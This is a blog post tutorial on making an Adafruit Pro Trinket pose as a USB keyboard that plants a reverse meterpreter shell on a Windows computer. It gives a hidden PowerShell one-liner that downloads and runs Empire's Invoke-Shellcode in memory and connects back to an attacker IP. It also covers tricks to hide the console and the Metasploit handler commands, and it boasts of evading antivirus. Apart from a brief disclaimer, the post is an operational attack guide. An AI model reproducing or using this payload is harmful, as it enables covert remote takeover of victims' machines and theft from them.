 ```yaml
---
layout: post
title: USB Keyboard Attack
excerpt: Learn how to turn the Adafruit Pro Trinket into a fake USB keyboard that will spawn a reverse meterpreter shell onto a victims computer.
tags: [exploitation, cyber-security, pro-trinket]
---
```


![alt text](https://cdn-learn.adafruit.com/guides/images/000/000/865/medium800/ProTrinketKeyboard_Example_Picture_Smaller.jpg?1448302050 "Adafruit ProTrinket")
Source: [Adafruit.com](https://www.google.com/url?sa=i&rct=j&q=&esrc=s&source=images&cd=&cad=rja&uact=8&ved=0ahUKEwjV842S7YrPAhVDMz4KHaC4DSYQjRwIBw&url=https%3A%2F%2Fwww.adafruit.com%2Fproduct%2F2010&psig=AFQjCNGeCb3p10lA_3DA50t_OYh1Ht8AKw&ust=1473804558096200){:target="_blank"}

***DISCLAIMER: I am not responsible for any illegal activities as a result of this material. This is for educational purposes only.***

If you have never heard of Adafruit, or the Trinket line, please check them out [here](https://www.adafruit.com){:target="_blank"}. They have all kinds of different development kits, and plenty of tutorials to get you started on some fun projects. The Pro Trinket is the larger version of the Trinket, with more RAM, flash, and GPIO pins (as well as some other updates). This article will explain how to setup the Pro Trinket to act as a usb keyboard when plugged into a computer. Computers inherently trust the keyboard, because they trust the user using it. What we will be doing is quickly installing a meterpreter shell (windows/meterpreter/reverse_https to be specific) on to a Windows machine.

### The Code
The code for this attack can be found at my [Github](https://github.com/willmfftt/ProTrinket_WinReverseShell){:target="_blank"}. Make sure to change the ATTACKER_IP to the IP address you will be running your meterpreter handler on, and set the ATTACKER_PORT to the port you want the shell to connect back to you with.

### Prerequisites for Attack
Unless you plan on replacing the backdoor with something completely different, the target must have PowerShell. The backdoor has only been tested on Windows 7 and Windows 10 so far, but it could possibly work on versions as low as Windows XP SP2. Also, while it should be obvious after reading this article, this can only be performed on a logged in user. However, Administrator privledges are not required :).

### What Does It Do?
So what it does is actually quite simple, especially since we are using the ProTinketKeyboard library (available [here](https://learn.adafruit.com/pro-trinket-keyboard/library){:target="_blank"}) which handles registering our device as a keyboard. All we do after that is press the Windows-R key to bring up the run box, then we type cmd to bring up the command line. After that we do a few things that aren't really needed for the attack, but make it a bit more stealthy. First we shrink the command prompt down as small as we can get it by running: ```mode con: cols=20 lines=1```. This sets the console to 20 characters wide by 1 character tall. Next we run ```COLOR FE``` which sets the background color to white, and the text color to light yellow. When all is said and done, we are left with a tiny command prompt that you can barely read text on. 

The next part is using PowerShell to download a script, load it into memory and execute it. The script that it loads is written by PowerShell Empire which offers a ton of different options. I actually found this PowerShell one-liner at [SHELLGAM3.COM](https://shellgam3.com/tag/reverse-shells/){:target="_blank"}, who has an excellent list of one-liner reverse shells. This is the command that gets run: ```powershell -nop -windowstyle hidden -NonInteractive -exec bypass -c IEX (New-Object Net.WebClient).DownloadString("https://raw.githubusercontent.com/PowerShellEmpire/Empire/master/data/module_source/code_execution/Invoke-Shellcode.ps1");invoke-shellcode -Payload windows/meterpreter/reverse_https -Lhost 52.37.4X.XXX -Lport 8443```. What's really neat about this script is that it includes Windows Metasploit payloads, and everything gets loaded into memory so no antivirus gets triggered. In the code i've provided, the only change that was made is the host and port have been moved into DEFINE constants and ```-f``` has been added which prevents the script from prompting the user to accept.

### What's Next?
Well first and foremost, you will need to flash the code onto the device. If you are not sure how to do this, please read the instructions found [here](https://learn.adafruit.com/introducing-pro-trinket/setting-up-arduino-ide){:target="_blank"}. Before you plug the device in, you will need to start metasploit on the attacking machine (*Note: The IP address of this machine must match the ATTACKER_IP in the source code*). Once you have metaspoit running, you will need to run these commands:
	
1. ```use exploit/multi/handler```
2. ```set payload windows/meterpreter/reverse_http```
3. ```set LHOST YOUR-IP-HERE```
4. ```set LPORT YOUR-PORT-HERE```
5. ```run -j```

And that's it! You're ready to plug in the device. When you plug the device in, once the red flashing indicator has stopped the device has started executing the code. You should see the run box quickly popup, then see the command prompt change size and color. Once the command prompt has closed, the attack is complete and you can remove the device. In a few moments you should see the meterpreter session has opened in metasploit. Congrats!

![alt text](/public/img/meterpreter_session.jpg "Meterpreter Session")

### Conclusion
While I may have written this article around using the Adafruit Pro Trinket, I would actually suggest using the regular Trinket instead. The Pro Trinket has both MicroUSB and FTDI for programming, so the bootloader stays active for quite some time (I think around 10 seconds) while it attempts to detect where the programming will occur. However, I had a Pro Trinket laying around, so that is what this is based on. From the documentation for the ProTrinketKeyboard library, it is written with the same syntax as the TrinketKeyboard library. So all you should need to do to convert this import the new library. I have not tested whether this conversion works or not, so don't hold me to it.